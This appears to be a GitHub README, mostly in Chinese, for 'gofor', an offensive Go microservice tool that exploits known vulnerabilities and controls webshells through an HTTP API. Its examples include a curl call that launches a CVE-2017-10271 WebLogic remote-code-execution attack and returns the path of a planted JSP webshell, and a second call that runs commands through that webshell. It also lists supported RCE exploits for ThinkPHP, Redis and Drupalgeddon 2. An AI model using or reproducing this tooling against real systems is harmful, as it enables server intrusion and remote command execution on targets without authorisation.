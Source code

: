 # gofor
一款集漏洞探测、攻击，Session会话，蜜罐识别等功能于一身的软件，基于go-micro微服务框架并对外提供统一HTTP API网关接口服务

## HTTP API Gateway
```shell
./api-srv
```

## Service Install(Optional)
**Exploit**
```
./srv-exploit
```
**Webshell**
```webshell
./srv-webshell
```

# Example
[*] CVE-2017-10271 Weblogic RCE 攻击例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://x.x.x.x:7001","cve":"CVE-2017-10271"}' http://127.0.0.1:8888/exploit/ExploitServiceExt/ExploitWithAttack
```
`{"cve":"CVE-2017-10271","tunnel":"192.168.27.129:38533/wls-wsat/ant.jsp"}`

[*] php webshell调用例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://192.168.27.129:38533/wls-wsat/ant.jsp","language":"jsp","cmd":"pwd"}' http://127.0.0.1:8888/webshell/WebshellServiceExt/RunCmdWithOutput
```
`{"output":"/root/Oracle/Middleware/user_projects/domains/base_domain"}`


# 当前支持漏洞列表
| id | 漏洞名 |
|--|--|
| VUL-2021-04271  | Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability |
| VUL-2021-04272  | ThinkPHP5 5.0.23 Remote Code Execution Vulnerability |
| CVE-2017-10271  | Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞 |
| VUL-2021-05081  | Redis Unauthorized Vulnerability 漏洞 |
| CVE-2018-7600   | Drupal Drupalgeddon 2 Remote Code Execution Vulnerability |
